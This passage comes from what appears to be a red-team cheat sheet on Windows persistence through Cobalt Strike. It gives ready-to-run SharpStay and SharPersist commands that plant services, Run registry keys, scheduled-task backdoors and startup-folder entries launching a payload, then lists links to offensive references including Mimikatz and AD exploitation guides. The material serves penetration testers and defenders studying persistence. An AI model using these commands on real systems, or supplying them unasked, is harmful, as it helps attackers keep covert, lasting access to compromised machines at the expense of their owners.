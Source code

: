 ```
# Service creation persistence
execute-assembly C:\Sharpstay.exe action=CreateService servicename=TestService command="C:\Windows\temp\file.exe"

# User registry key persistence
execute-assembly C:\Sharpstay.exe action=UserRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\file.exe"

# Many other methods available on the tool's github documentation
```
[SharpPersist](https://github.com/fireeye/SharPersist)
```
# List persistence entries
execute-assembly C:\SharPersist.exe -t [reg,schtaskbackdoor,startupfolder,service] -m list

# Registy persistence
execute-assembly C:\SharPersist.exe -t reg -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -k "hkcurun" -v "Test Payload" -m add -o env

# Scheduled task backdoor persistence
execute-assembly C:\SharPersist.exe -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -n "Test Scheduled Task" -m add -o daily

# Startup folder persistence
execute-assembly C:\SharPersist.exe -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -f "Test File on Startup" -m add

# Windows service persistence
execute-assembly C:\SharPersist.exe -t service -c "C:\Windows\System32\cmd.exe" -a "/c payload.exe" -n "Test Service" -m add
```

[StayKit](https://github.com/0xthirteen/StayKit) - Cobalt Strike persistence kit aggressor script

------------------------------------------------------------------------------------------
# References
[Cobalt Strike commands cheat sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet) 

[AD exploitation cheat sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) 

[Sharphound](https://github.com/BloodHoundAD/SharpHound3) 

[PowerShell remoting cheat sheet](https://blog.netspi.com/powershell-remoting-cheatsheet/) 

[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md) 

[SpectreOps Cobalt Strike command reference](https://xzfile.aliyuncs.com/upload/affix/20190126174144-9767f9f2-214e-1.pdf) 

